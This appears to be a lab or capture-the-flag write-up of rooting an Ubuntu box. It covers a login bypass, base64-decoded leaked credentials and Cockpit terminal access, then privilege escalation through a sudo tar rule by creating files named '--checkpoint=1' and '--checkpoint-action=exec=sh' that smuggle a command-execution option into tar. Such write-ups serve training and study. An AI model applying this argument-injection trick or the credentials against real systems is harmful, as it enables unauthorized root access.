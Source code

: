 
#Pwned! 
```IP
192.168.232.10
```
# Enumeration
Ubuntu 20.04.6 LTS

## HTTP 80
apache 2.4.41
```
login.php
logout.php
blocked.html
db_config.php
```

## HTTP 9090
server blaze
# Exploitation
in /login.php we can get in as admin:''
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125090028.png?raw=true)
we can convert them with
```
echo 'dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy'  | base64 -d
```
we seem to have a set of credentials
```
james:canttouchhhthiss@455152
```
```
cameron:thisscanttbetouchedd@455152
```
we aren't able to SSH with either of them but we can use them on the blaze server in 9090

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124180708.png?raw=true)
we can enter with james:canttouchhhthiss@455152
we get cockpit version 215
we have a terminal and we can get initial foothold
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125091617.png?raw=true)

# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125091922.png?raw=true)
```
sudo -l
```
it seems like we have access to this command
```
(ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *
```
we search how to scape it in GTFObins
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125094214.png?raw=true)
we need 2 files with names as the highlighted parameters in order to tar to execute them
we create 2 files as follows in /tmp:
```
echo '' > /tmp/'--checkpoint=1'
```
eventhough we can't create files with a '/' character, we have sh in path so we could create the other file as follows:
```
touch ./'--checkpoint-action=exec=sh'
```


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125094048.png?raw=true)

when executing the command we gain root access
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125094004.png?raw=true)
we now have proof.txt

## Automated

### Peass
### Mimikatz

# Lateral Movement

